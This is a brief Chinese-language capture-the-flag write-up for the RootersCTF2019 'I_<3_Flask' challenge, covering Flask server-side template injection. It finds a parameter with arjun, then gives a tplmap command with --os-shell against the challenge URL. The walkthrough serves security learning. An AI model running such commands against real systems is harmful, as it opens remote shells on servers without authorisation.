



# [RootersCTF2019]I_<3_Flask

## 知识点

`SSTI`

`flask`

## 解题

进入之后没有发现什么东西，使用`arjun`查一下注入参数



然后尝试`SSTI`的`payload`，发现有注入



半天`500`，直接使用`tplmap`注入

```bash
python .\tplmap.py -u "http://6230b100-f64f-4183-80f7-c8e6a83a1c40.node5.buuoj.cn:81/?name=1" --os-shell
```

